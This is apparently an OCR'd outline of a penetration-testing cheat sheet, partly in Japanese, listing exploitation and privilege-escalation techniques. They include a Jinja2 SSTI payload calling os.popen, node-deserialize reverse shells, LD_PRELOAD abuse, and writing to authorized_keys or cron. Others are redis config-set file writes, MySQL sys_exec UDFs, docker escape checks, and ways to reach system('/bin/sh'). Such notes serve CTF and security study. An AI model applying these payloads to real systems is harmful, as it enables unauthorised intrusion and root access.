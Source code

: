   - ssti
    - jinja2
      - {{config.\_\_class\_\_.\_\_init\_\_.\_\_globals\_\_['os'].popen('code').read()}}
    
  - deserialization
    - node.jsで入力がJsonでも、node-deserializeモジュールを利用していれば、デシリアライズに起因するバグが存在する可能性がある
    - nodejsshell.pyで、evalに基づくリバースシェルが可能
    
  - environ
    - LD_PRELOAD
    - PYTHONPATH
      - python library path
    
  - write file
    - authorized_keys
    - /var/www/html
    - /var/spool/cron
    
  - docker
    - check another server
    - privilege?
      - ip link add dummy0 type dummy
    - capability?
      - capsh --print
    - enum
      - [deepce](https://github.com/stealthcopter/deepce)
    
  - NetBSD
    - doas -u user command
      - same as su
    
  - database
    - run as root
    - create a user defined function (mysql)
      - sys_exec
    
  - redis
    - config set dir XXXX
    - config set dbfilename XXXX
    - save
    
  - pwn
    - base address (No ASLR)
      - ldd bin
      - ただし、lddで出力されるアドレスが正しくない時があるので注意
    - aslr
      - (disable) /proc/sys/kernel/randomize_va_space is 0
      - ldd libc.so.6
      - ldd binary
      - 32bitの場合、アドレスが合致するまで施行するのも視野に入れる
    - /bin/sh
      - 権限昇格においては大半の場合、system("/bin/sh")を実行することが目的となるが、/bin/shでなくともよい
      - 例えばshでもよい
      - system("/tmp/hoge")のようなパスを指定し、/tmp/hogeに実行可能なシェルスクリプトを配置してもよい
      - PATHに適当に追加(Path Injection)し、system("hoo")でもよい
    